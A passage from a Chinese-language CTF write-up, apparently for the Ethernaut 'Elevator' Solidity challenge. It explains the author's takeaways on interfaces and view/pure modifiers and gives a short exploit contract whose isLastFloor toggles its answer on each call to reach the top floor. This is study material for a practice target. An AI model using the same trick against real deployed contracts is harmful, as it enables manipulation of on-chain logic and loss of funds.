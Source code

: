 这题学习了solidity中接口的一些用法，根据题目详解也了解到了view和pure函数修改器的作用，可以防止状态被篡改，但是即使这样，也可以构造一个不同输入得到不同输出的函数解出本题。

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    /* code of Elevator */

    contract Exploit {
        Elevator elevator;
        bool top = true;
        constructor(address challenge) public {
            elevator = Elevator(challenge);
        }
        function isLastFloor(uint) public returns (bool) {
            top = !top;  // 调用一次就改一次返回值
            return top;
        }
        function exp() public {
            elevator.goTo(1);
        }
    }
    ```

## Privacy